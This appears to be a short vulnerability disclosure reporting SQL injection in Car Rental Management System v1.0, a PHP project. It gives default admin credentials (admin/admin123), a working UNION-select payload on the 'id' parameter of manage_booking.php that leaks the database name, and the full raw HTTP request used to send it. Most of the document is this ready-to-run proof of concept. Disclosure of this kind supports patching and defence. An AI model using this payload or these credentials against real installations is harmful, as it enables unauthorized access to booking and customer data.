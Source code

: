 # Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: /car-rental-management-system/admin/manage_booking.php?id=

Vulnerability location: /car-rental-management-system/admin/manage_booking.php?id=,id

[+] Payload: /car-rental-management-system/admin/manage_booking.php?id=-1%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ // Leak place ---> id

Current database name: car_rental_db

```sql
GET /car-rental-management-system/admin/manage_booking.php?id=-1%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170960678-05ad738a-eac1-48d3-abc6-06355e37583e.png)

![image](https://user-images.githubusercontent.com/54017627/170960625-c6a189da-b096-40fd-a7b5-41369b013f70.png)
